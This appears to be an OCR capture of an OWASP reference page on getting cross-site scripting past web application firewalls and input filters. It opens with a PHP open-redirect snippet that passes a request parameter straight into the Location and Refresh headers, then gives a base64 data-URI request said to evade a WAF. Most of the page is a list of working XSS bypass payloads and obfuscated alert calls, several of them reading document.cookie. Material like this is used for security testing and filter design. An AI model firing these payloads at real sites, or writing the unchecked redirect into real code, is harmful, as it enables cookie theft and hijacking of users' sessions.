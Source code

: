 ```js
...
header('Location: '.$_GET['param']);
...
As well as:

..
header('Refresh: 0; URL='.$_GET['param']);
...
This request will not pass through the WAF:
/?param=<javascript:alert(document.cookie>)

This request will pass through the WAF and an XSS attack will be conducted in certain browsers.
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

WAF ByPass Strings for XSS.
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<Video> <source onerror = "javascript: alert (XSS)">
<Input value = "XSS" type = text>
<applet code="javascript:confirm(document.cookie);">
<isindex x="javascript:" onmouseover="alert(XSS)">
"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
"><img src="x:x" onerror="alert(XSS)">
"><iframe src="javascript:alert(XSS)">
<object data="javascript:alert(XSS)">
<isindex type=image src=1 onerror=alert(XSS)>
<img src=x:alert(alt) onerror=eval(src) alt=0>
<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert(1)">X
</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
<style>//*{x:expression(alert(/xss/))}//<style></style>
On Mouse Over​
<img src="/" =_=" title="onerror='prompt(1)'">
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
<script x> alert(1) </script 1=2
<form><button formaction=javascript&colon;alert(1)>CLICKME
<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>
Filter Bypass Alert Obfuscation
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)
Edit on GitHub
The OWASP® Foundation works to improve the security of software through its community-led open source software projects, hundreds of chapters worldwide, tens of thousands of members, and by hosting local and global conferences.
Upcoming Global Events
Virtual AppSec Days, Summer
Global AppSec SF October 19th-23rd
```